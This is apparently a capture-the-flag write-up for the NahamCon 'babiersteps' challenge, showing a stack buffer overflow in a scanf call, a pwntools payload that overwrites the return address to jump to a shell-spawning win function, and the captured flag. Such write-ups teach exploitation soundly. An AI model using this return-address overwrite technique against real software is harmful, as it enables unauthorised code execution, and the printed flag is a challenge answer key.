






# NahamCon - babiersteps

Another buffer overflow challenge :)
Now we don't have any source code - no worries!

We're given a binary, and using the `file` command, we can see we're given a 64 executable.



Let's open up gdb. Firstly, we would like to know the functions in this binary:



So the interesting functions are `main` and `win` - we want to jump to `win` somehow.
Let's run the binary:

```
Everyone has heard of gets, but have you heard of scanf?
```

Sus. Obviously we are facing some bufferoverflow with `scanf`. Let's disassemble `win`:



There's a call to `execv` - probably calling bash to create a shell - that's our goal.

Let's disassemble main:



The program only outputs the initial string and then reads input using `scanf`.
We can see that `scanf` reads the input into a buffer at `rbp-0x70`, since it's passed to `scanf` before calling it.

The buffer is 112 bytes (0x70 bytes), and the function allocates it at the start of main:



So what we want to do is:
- Overwrite the buffer
- Overwrite the old RBP (8 bytes)
- Overwrite the return address to be `win`

Let's do that using pwntools:

```python
# Overwrite the buffer (112 bytes), the return address (8 bytes) and overwrite the return address to win
exploit_str = ("1" * 112 + "2" * 8).encode() + p64(0x00000000004011c9)

# Save exploit string as file locally
file = open("exploit", "wb")
file.write(exploit_str)
file.close()
```

To ensure that the buffer overflow actually works, I debugged with gdb with the output of the python script above, and set a breakpoint in `win`.



And indeed we reach `win`.

So now we got the shell, the flag is probably somewhere here. Let's send and `ls`:

```python
conn.sendline("ls")
print(conn.read().decode())
```

We get:
```
babiersteps
bin
dev
etc
flag.txt
lib
lib32
lib64
libx32
usr
```

Great :) let's just print the flag:


```python
conn.sendline("cat flag.txt")
print(conn.read().decode())
```

Bam:

```
flag{de8b6655b538a0bf567b79a14f2669f6}
```
